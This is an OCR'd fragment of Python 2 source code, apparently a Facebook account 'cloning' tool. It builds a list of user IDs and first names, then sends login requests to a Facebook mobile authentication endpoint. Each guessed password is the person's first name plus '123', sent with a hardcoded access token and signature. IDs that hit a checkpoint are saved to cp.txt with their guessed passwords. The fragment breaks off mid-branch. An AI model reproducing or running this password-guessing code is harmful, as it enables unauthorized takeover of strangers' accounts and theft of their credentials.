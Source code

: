 			uid=i['id']

			na=i['name']

			nm=na.rsplit(" ")[0]

			id.append(uid+'|'+nm)

	elif select =="0":

	    os.system("exit")

	else:

	    print("")

	    print("Please Select A Valid Option").center(50)

	    time.sleep(2)

	    menu_select()

	print("\033[1;97m-> Total IDs : "+str(len(id)))

	time.sleep(0.5)

	print("\033[1;97m-> Please wait clone account will be appear here")

	print 47*("-")

	print('')



	def main(arg):

		user=arg

		uid,name=user.split("|")

		try:

		    pass1=name+"123"

		    q = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + uid + "&locale=vi_vn&password=" + pass1 + "&sdk=ios&generate_session_cookies=1&sig=15df5f3c8c37e0a620e8fa1fd1dd705c", headers=header).text

		    d=json.loads(q)

		    if 'www.facebook.com' in d['error_msg']:

		        print("\x1b[1;93m[UZAIR-CP] "+uid+" | "+pass1)

		        cp=open("cp.txt","a")

		        cp.write(uid+" | "+pass1+"\n")

		        cp.close()

		        cps.append(uid)

		    else:
